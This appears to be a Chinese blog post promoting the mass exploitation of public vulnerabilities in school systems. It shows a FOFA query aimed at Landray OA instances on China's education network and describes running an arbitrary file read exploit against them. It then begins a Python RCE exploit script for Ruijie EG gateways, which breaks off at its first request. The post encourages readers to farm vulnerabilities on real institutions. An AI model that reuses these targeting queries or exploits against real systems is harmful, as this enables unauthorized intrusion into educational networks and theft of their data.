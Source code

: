 **比如学校常用的 OA 系统爆出漏洞并有人公开了，那就是手快有手慢无了，这里拿之前发的** **蓝凌 OA 任意文件读取举例**

```
https://mp.weixin.qq.com/s/TkUZXKgfEOVqoHKBr3kNdw
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5VFLUqwldLQBQZJicp0XARjbcZJuOlB4YgR3aAv2gU3gWWlor6iaVLUHNjge4ygMY8AzvdTO89cRYg/640?wx_fmt=png)

**同样通过 FOFA 搜索资产**

```
app="Landray-OA系统" && org="China Education and Research Network Center"
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5VFLUqwldLQBQZJicp0XARjG0H0MkgJsCU1nLiav69vujWratsr3UOym0TIVYfl3Fhl61iclia4tjr6w/640?wx_fmt=png)

**使用 EXP 测试：**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5VFLUqwldLQBQZJicp0XARj3P1XrYZWqEmRghlbpGe4dZTKYqTfoZIFJx5iaNYmb7ssbC0DLoTJQRA/640?wx_fmt=png)

**一样的方法确定资产**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el5VFLUqwldLQBQZJicp0XARj2IYueo6SLjNeicasLjQHLUJpatmxsfgHWCwLnwfrrcXC8ic6IynKndww/640?wx_fmt=png)

**到这里大家应该知道怎么刷漏洞了，冲冲冲吧**

**文库地址和知识星球放在下面了（知识星球更新漏洞较提前，喜欢刷漏洞的可以加入)**

 ****三:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4cpD8uQPH24EjA7YPtyZEP33zgJyPgfbMpTJGFD7wyuvYbicc1ia7JT4O3r3E99JBicWJIvcL8U385Q/640?wx_fmt=png)

****四:  刚刚的两个 EXP🦉****

```
# 锐捷EG cli.php RCE

#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷EG网关 cli.php RCE                                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login.php"
```